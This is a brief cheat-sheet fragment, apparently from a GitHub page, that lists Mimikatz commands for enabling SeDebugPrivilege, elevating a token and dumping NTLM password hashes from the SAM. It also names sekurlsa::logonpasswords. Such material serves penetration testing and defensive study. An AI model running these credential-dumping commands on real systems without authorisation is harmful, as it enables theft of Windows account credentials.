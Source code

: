 
To use *sekurlsa::logonpasswords* or *lsadump::sam* we need **SeDebugPrivilege** use this to enable it.

```console
mimikatz # privilege::debug
```

```console
mimikatz # token::elevate
```
If the previous two were successfull, now we can get NTLM hashes for users with this.

```console
lsadump::sam
```
